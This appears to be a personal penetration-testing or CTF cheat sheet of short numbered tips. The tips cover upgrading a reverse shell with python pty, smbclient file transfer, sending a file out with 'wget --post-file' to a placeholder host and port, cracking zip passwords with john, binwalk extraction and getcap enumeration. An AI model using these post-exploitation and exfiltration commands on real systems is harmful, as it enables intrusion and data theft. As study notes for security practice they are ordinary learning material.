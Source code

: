 1)) If you get a reverse shell you know what that's look like without meterpreter or something. If you want to get a stable,interactive bash shell and if python is supported, then

> python -c "import pty; pty.spawn('/bin/bash')"

2)) Sometimes i get confused with smbclient. So this note is for mine.

> smbclient -L $IP$or$domain$

> smbclient \\\\\\\\$IP$or$domain$\\\\share

For downloading a file from remote server,

> get file

For uploading a file to remote server,

> put file

3)) When sending a POST request using the ' --post-file ' option, Wget treats the file as a binary file and will send every character in the POST request without stripping trailing newline or formfeed characters. Any other control characters in the text will also be sent as-is in the POST request.

> wget --post-file=file_to_post $desIP$:$PORT$

4)) scp (secure copy) command in Linux system is used to copy file(s) between servers in a secure way. The SCP command or secure copy allows secure transferring of files in between the local host and the remote host or between two remote hosts.

> scp <user@ip>:file-location destination

5)) If you have a password protected zip file,then you can use our useful friend john.

> zip2john file.zip > file.hash

> john file.hash

6)) Suppose you have a image file. As you are a hacker, you know what's that.You can extract a file or message from that image file.You can use binwalk for 
extracting file and steghide or zsteg for message.

> binwalk file.png

> binwalk -e file.png

7)) I don't know why linux system doesn't actually take golang as their own.Every time i have to write the following command to poke the system.

> source ~/.profile

8)) To see if capabilities are set on files in linux system, 

> getcap -r / 2>/dev/null

9)) Sometime ssh command doesn't work. Below command might help,

> sudo ip link set dev tun0 mtu 1200
Changing the mtu can help, increasing it can improve performance, decreasing can help with packet loss.

